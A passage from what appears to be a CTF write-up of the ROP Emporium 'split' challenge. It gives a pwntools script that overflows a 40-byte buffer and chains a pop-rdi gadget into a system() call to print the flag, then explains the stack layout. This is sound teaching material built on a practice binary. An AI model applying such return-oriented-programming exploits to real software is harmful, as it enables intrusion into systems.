 So now we have an useful gadget that place an address from the stack into te rdi register. We have all that we need in order
to win this challenge! I will not show again how we can find the offset I have alredy show [here](https://tizianocolagrossi.github.io/rop-emporium-ret2win/)
In this case we have an offset of 40 bytes


``` python
from pwn import *

context.binary = elf = ELF('./split')
offset = 40

flag_string = 0x601060
pop_rdi     = 0x4007c3
call_system = 0x40074b

payload = b'c'*offset+p64(pop_rdi)+p64(flag_string)+p64(call_system)

p = elf.process()
p.recv()
p.sendline(payload)
log.info(p.recvall())
```

We can see that here in the payload we are creating a little rop chain. First we place the address of the pop_rdi gadget that will pop the value 
on the stack (placed right after) into the rdi register, than return to call_system function.


```
after our payload
               ret
[buffer ][ebp][pop_rdi][cat_flag_pointer][call_system]

we return from the pwnme and we pop the saved rip 
(that now contains the address of the gadget pop rdi)

so the stack is like this and rip point to pop rdi
[cat_flag_pointer][call_system]

now we have rdi = cat_flag_pointer
and the stack is arranged like this

[call_system]

now we execute the ret of the gadget
and we jump into call_system with 
rdi set to /bin/cat/flag
```


# x86 (32 bit) architecture
The main difference here is that in this architecture the argument to the function are passed trough the stack.
We have an offset of 44 bytes [here](https://tizianocolagrossi.github.io/rop-emporium-ret2win/) I show how this offset can be found.

